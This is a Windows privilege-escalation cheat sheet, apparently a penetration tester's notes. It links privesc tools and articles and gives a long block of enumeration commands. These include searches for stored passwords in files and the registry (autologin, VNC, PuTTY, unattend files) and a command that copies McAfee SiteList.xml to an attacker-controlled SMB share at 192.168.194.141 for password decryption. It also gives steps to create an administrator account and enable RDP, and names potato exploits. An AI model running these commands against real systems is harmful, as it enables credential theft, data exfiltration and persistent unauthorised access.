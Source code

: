 # Privilege Escalation

## Scripts

* [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
* [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [windows-exploit-suggester.py](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)
* [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://pentestlab.blog/2017/04/24/windows-kernel-exploits/](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows)

## Manual Enumeration

```
# Current user and hostname
whoami
whoami /all
net user <user>
hostname

# Existing users
net user
wmic useraccount list full

# OS version & architecture
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

### Check C:\Windows\System32\ntdll.dll version
http://www.geoffchappell.com/studies/windows/win32/ntdll/history/index.htm

# Processes & services
tasklist /SVC
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
reg query "HKLM\SYSTEM\CurrentControlSet\Services"
sc query state= all

# Networking info
ipconfig /all
route print
netstat -ano

# Firewall
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

# Scheduled tasks
schtasks /query /fo LIST /v

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"

### Create scheduled task
schtasks /create /sc minute /mo 1 /tn "my_task" /tr "COMMAND" /ru "SYSTEM"

### Check what a is doing a scheduled task
schtasks /query /FO LIST /v
type C:\Windows\Tasks\...

# Installed applications & patch level
wmic product get name,version,vendor
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Check for readable/writable files & directories
# leverage accesschk.exe from sysinternals
accesschk.exe -uws "Everyone" "C:\Program Files"
# powershell version
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Enumerate unmounted disks
mountvol

# List device drivers & kernel modules
# powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
# list non-windows drivers, using with sigcheck.exe
driverquery.exe /v /fo csv | ConvertFrom-CSV | ForEach-Object {.\sigcheck.exe -c -nobanner $_.Path | ConvertFrom-CSV -Delimiter ',' | select-object path,publisher,verified | Where-Object {$_.Publisher -ne "Microsoft Windows"}}

# Check binaries that autoelevate
# check status of AlwaysInstallElevated setting. If enabled, any user can run MSI packages with elevated privileges.
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
# check binary manifest using sigcheck from SysInternalsSuite
sigcheck.exe -a -m <full_binary_path>

# Check binary permissions
icacls <full_binary_path>

# Search for interesting files
dir /b /s .
dir /b /s c:\*.txt
dir /b /s *pass*
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
findstr /si password *.txt 
findstr /si password *.txt *.xml *.ini *.config
findstr /spin "password" *.*
dir /b /s Services.xml == ScheduledTasks.xml == Printers.xml == Drives.xml == DataSources.xml
findstr /si password file.xml
dir /s C:\Users

c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

C:\inetpub\wwwroot\web.config

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

#on target
#search for file SiteList.xml
dir /s/b SiteList.xml
#copy file to kali (after setting up impacket-smbserver)
cp "C:\Users\All Users\McAfee\Common Framework\SiteList.xml" //192.168.194.141/share/tmp

#on kali
#grep encrypted password
grep -i password SiteList.xml
#decrypt password 
python mcafee_sitelist_pwd_decrypt.py [encryptedpassw]

# Check registry entries
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername 
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
	#NOTE: if you get redirected, use that redirect 
	reg query "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s


```

## Create Admin User

```
net user slysandwich slysandwich /add
net localgroup administrators slysandwich /add
```

## Enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Exploits

* JuicyPotato (Server 2008 R2, 2012, 2012 R2, 2016)
* PrintSpoofer
* RogueWinRM
* RoguePotato
